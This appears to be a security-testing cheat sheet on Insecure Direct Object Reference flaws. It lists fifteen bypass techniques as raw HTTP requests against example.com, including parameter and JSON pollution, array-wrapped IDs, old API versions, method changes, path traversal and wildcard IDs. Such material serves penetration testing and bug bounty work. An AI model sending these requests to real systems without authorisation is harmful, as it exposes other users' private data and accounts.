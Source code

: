 # Insecure Direct Object Reference (IDOR)

## Bypassing method
-----------------
```
GET /api_v1/messages?user_id=YOUR_USER_ID&user_id=ANOTHER_USERS_ID
GET /api_v1/messages?user_id=ANOTHER_USERS_ID&user_id=YOUR_USER_ID
GET /api_v1/messages?user_ids[]=YOUR_USER_ID&user_ids[]=ANOTHER_USERS_ID
```

## Change the request method
----------------------
- try instead: GET, POST, PUT, DELETE, PATCH


1. Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /api/v1/getuser?id=1234 HTTP/1.1
Host: example.com
...
```

2. HTTP Parameter pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint
```
GET /v2/GetData/1234 HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /v2/GetData/1234.json HTTP/1.1
Host: example.com
...
```

4. Test on outdated API Versions
```
POST /v2/GetData HTTP/1.1
Host: example.com
...

id=123
```
Try this to bypass
```
POST /v1/GetData HTTP/1.1
Host: example.com
...

id=123
```

5. Wrap the ID with an array.
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"id":[111]}
```

6. Wrap the ID with a JSON object
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using GraphQL, try to find IDOR using GraphQL
```
GET /graphql HTTP/1.1
Host: example.com
...
```
```
GET /graphql.php?query= HTTP/1.1
Host: example.com
...
```

10.  MFLAC (Missing Function Level Access Control)
```
GET /admin/profile HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /ADMIN/profile HTTP/1.1
Host: example.com
...
```

11. Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /file?id=302
Host: example.com
...
```

12. Change HTTP Method
```
GET /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
POST /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```

13. Path traversal
```
GET /api/v1/users/profile/victim_id HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /api/v1/users/profile/my_id/../victim_id HTTP/1.1
Host: example.com
...
```

14. Change request `Content-Type`
```
GET /api/v1/users/1 HTTP/1.1
Host: example.com
Content-type: application/xml
```
Try this to bypass
```
GET /api/v1/users/2 HTTP/1.1
Host: example.com
Content-type: application/json
```

15. Send wildcard instead of ID
```
GET /api/users/111 HTTP/1.1
Host: example.com
```
Try this to bypass
```
GET /api/users/* HTTP/1.1
Host: example.com
```
```
GET /api/users/% HTTP/1.1
Host: example.com
```
```
GET /api/users/_ HTTP/1.1
Host: example.com
```
```
GET /api/users/. HTTP/1.1
Host: example.com
```
